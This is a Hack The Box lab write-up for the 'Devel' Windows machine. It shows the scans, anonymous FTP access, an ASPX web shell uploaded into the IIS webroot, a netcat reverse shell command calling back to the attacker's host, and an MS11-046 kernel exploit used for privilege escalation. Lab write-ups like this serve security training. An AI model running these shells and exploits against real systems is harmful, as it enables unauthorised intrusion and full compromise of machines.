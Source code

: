 ```yaml
---
layout: post
title: HTB Machine - Devel
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1.png
share-img: https://www.hackthebox.com/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1.png
tags: [ HTB, Hack the Box,IIS,ASP,Web,Network,Protocols,FTP,Remote Code Execution,Arbitrary File Upload]
---
```

scans:
```zsh
nmap -sS --min-rate 5000 -n -Pn -p- -oG ./nmap/allports 10.10.10.5
nmap -sCV -oN ./nmap/targeted -p21,80 10.10.10.5
```
We have a windows machine with 2 ports open, ftp and web. We can login to the ftp with anonymous/no pass.
```zsh
ftp 10.10.10.5

dir
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```
there is no much in the ftp so we can examine the webpage. There is nothing but an image. 
```zsh
whatweb http://10.10.10.5
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET]
```
lets download the image from the ftp. First we need to set the ftp in binary mode so it downloads the file and make sure it is not corrupted.
```zsh
ftp> binary
200 Type set to I.

ftp> get welcome.png

```
It is the same image we see in the webpage. Perhaps the ftp and the webpage are connected. To test this theory, we can upload a file and make a call inside the webpage. 
```zsh
 ftp 10.10.10.5
 put text.txt
```

if we go to http://10.10.10.5/text.txt we can see the text file being rendered; the FTP is connected to the webpage. We can upload then a malicious file that allows us to run commands in the target.
```zsh
locate cmd | grep .aspx
cp /usr/share/davtest/backdoors/aspx_cmd.aspx shell.aspx
ftp 10.10.10.5
put shell.aspx
```
we can upload a netcat to gain a bind session. after uploading it we need to know where it is, we can google IIS common path windows which is C:\inetpub\wwwroot and verify via the webpage.
```zsh
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
ftp 10.10.10.5
put nc.exe
```
now we can launch our bind session by setting the command in the webpage not before setting our nc for incoming connections.
```zsh
sudo rlwrap nc -nlvp 443
```
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.5 443

If we check our privileges we see the ImpersonatePrivilege and checking further the machine is a windows 7, a exploit might be available for this OS version. Lets ask google.
```cmd
whoami /all
SeImpersonatePrivilege

systeminfo
```
Google results mentions MS11-046 and we come accross an exploit for it.

[MS11-046 exploit](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe)

Upload the file to the machine and execute it to gain root access.
```zsh
ftp 10.10.10.5
binary
put ms11-046.exe
```
```cmd
cd C:\inetpub\wwwroot
.\ms11-046.exe

cd c:\users
dir /r /s user.txt
```
